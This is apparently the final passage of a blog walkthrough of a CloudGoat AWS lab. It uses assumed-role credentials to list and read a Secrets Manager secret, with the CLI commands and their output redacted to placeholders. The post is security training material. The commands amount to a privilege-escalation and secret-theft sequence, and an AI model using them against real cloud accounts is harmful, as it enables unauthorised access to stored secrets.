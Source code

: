 Result:
```json
{
    "Credentials": {
        "AccessKeyId": "<access-key-id>",
        "SecretAccessKey": "<secret-access-key>",
        "SessionToken": "<session-token>",
    },
    "AssumedRoleUser": {
        "Arn": "arn:aws:sts::###:assumed-role/cg_secretsmanager_iam_privesc_by_key_rotation_###/<session-name>"
    }
}
```

Create the profile from the credentials. I use profile name `kerrigan-get-secret` in this blog.

### Get secret!
You can list all the secrets
```shell
aws --profile kerrigan-get-secret secretsmanager list-secrets
```

Result:
```json
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:###:secret:cg_secret_iam_privesc_by_key_rotation_###-37ZBQ3",
            "Name": "cg_secret_iam_privesc_by_key_rotation_###",
        }
    ]
}
```

Get the secret!

```shell
aws --profile kerrigan-get-secret secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-1:###:secret:cg_secret_iam_privesc_by_key_rotation_###-37ZBQ3
```

Result:
```json
{
    "ARN": "arn:aws:secretsmanager:us-east-1:###:secret:cg_secret_iam_privesc_by_key_rotation_###-37ZBQ3",
    "Name": "cg_secret_iam_privesc_by_key_rotation_###",
    "SecretString": "<secret-value>",
    "CreatedDate": "2024-03-12T16:27:04.660000+11:00"
}
```

Thank you for reading, hope you enjoy your hacking!
